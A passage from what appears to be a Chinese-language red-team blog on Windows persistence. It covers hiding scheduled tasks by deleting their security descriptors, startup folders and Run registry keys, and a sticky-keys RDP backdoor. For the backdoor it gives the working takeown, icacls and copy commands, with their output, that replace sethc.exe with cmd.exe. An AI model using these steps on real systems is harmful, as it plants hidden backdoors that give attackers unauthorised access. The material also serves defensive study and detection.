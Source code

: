 ```cmd
# 查询任务计划
schtasks /query
```

隐藏任务计划

> **我们可以通过删除其安全描述符（SD）**使任务计划对系统中的任何用户不可见。
>
> 所有计划任务的安全描述符都存储在`计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`中名为“SD”的值

![image-20231117111429781](E:/blog/source/images/image-20231117111429781.png)



### 添加自启动项

启动项目录

```cmd
# 特定用户登录时
C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
# 任意用户登录时
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

注册表启动项

```cmd
# 当前用户登录时
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
# 任意用户登录时
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

新建一个值

![image-20231117112136859](E:/blog/source/images/image-20231117112136859.png)



### RDP后门

拥有RDP权限，在对方锁屏并不知道密码时仍可以使用终端的方法

- 粘滞键

  > 连续按下`SHIFT`5 次后，Windows 将执行`C:\Windows\System32\sethc.exe`.
  >
  > ![粘滞键](E:/blog/source/images/27e711818bea549ace3cf85279f339c8.png)

  将sethc替换为cmd

  ```cmd
  C:\> takeown /f c:\Windows\System32\sethc.exe
  
  SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".
  
  C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
  processed file: C:\Windows\System32\sethc.exe
  Successfully processed 1 files; Failed processing 0 files
  
  C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
  Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
          1 file(s) copied.
  ```
